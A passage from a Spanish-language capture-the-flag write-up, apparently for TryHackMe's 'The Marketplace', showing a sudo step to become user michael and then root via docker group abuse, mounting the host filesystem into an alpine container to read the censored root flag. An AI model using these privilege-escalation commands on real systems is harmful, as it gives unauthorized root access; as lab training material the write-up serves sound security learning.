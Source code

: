 ejecutamos el script como el usuario michael

```bash
jake@the-marketplace:/opt/backups$ sudo -u michael ./backup.sh
Backing up files...
```

y ahora somos el usuario michael, excelente trabajo

```bash
michael@the-marketplace:/opt/backups$ whoami
michael
```

Pero todavía falta conseguir la flag del usuario root, así que vamos a eso

viendo en que grupos está michael vemos uno muy llamativo del que podemos abusar para convertirnos en root, el grupo docker, así que directamente listamos las imagenes que hay

```bash
michael@the-marketplace:/opt/backups$ docker images
```

```bash
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
themarketplace_marketplace   latest              6e3d8ac63c27        11 months ago       2.16GB
nginx                        latest              4bb46517cac3        12 months ago       133MB
node                         lts-buster          9c4cc2688584        12 months ago       886MB
mysql                        latest              0d64f46acfd1        12 months ago       544MB
alpine                       latest              a24bb4013296        14 months ago       5.57MB
```

y usamos alpine para crear una montura de la raiz en mnt para poder visualizar la flag root.txt

```bash
michael@the-marketplace:/opt/backups$ docker run --rm -it --network bridge -v /:/mnt --name rooted alpine sh
```
```bash
/ # whoami
root
```
Ahora vemos que estamos en un contenedor como el usuario root en donde podemos meternos en mnt, luego en el directorio root y leer la flag

```bash
/ # cd /mnt/root
/mnt/root # cat root.txt
THM{<***CENSORED***>}
```

